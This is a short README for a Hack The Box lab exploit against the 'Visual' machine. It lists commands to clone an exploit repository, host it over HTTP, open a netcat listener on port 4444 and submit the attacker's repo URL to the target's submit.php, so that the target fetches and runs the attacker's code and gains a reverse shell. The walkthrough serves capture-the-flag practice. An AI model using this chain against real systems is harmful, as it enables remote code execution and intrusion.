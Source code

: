 # HTB Visual User exploit

1. ```git --bare clone https://github.com/edpryk/htb-v1su4l-expl01t exploit```
2. Update ```script.bat``` with your IP 
3. ```cd exploit/.git``` 
    - ```git --bare update-server-info``` 
    - ```python3 -m http.server 8000```

4. ```nc -lnvp 4444``` 
5. ```curl visual.htb/submit.php -X POST -d 'gitRepoLink=http://<YOUR_IP>:8000'```